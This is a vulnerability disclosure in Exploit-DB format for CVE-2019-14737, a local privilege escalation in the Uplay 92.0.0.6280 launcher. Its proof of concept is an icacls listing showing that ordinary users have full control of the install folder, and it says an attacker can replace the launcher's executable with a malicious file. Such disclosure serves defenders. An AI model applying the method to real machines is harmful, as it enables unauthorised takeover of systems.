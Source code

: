 ```
Exploit Title: Uplay 92.0.0.6280 - Local Privilege Escalation
Date: 2019-08-07
Exploit Author: Kusol Watchara-Apanukorn, Pongtorn Angsuchotmetee, Manich Koomsusi
Vendor Homepage: https://uplay.ubisoft.com/
Version: 92.0.0.6280
Tested on: Windows 10 x64
CVE : CVE-2019-14737
```

### Vulnerability Description
"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher" has in secure permission that allows all BUILTIN-USER has full permission. An attacker replace the 
vulnerability execute file with malicious file.

### PoC

```
C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher>icacls "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher"
C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher BUILTIN\Users:(F)
                                                     BUILTIN\Users:(OI)(CI)(IO)(F)
                                                     NT SERVICE\TrustedInstaller:(I)(F)
                                                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                     BUILTIN\Users:(I)(RX)
                                                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```
ExpoitDB: https://www.exploit-db.com/exploits/47493
NVD: https://nvd.nist.gov/vuln/detail/CVE-2019-14737
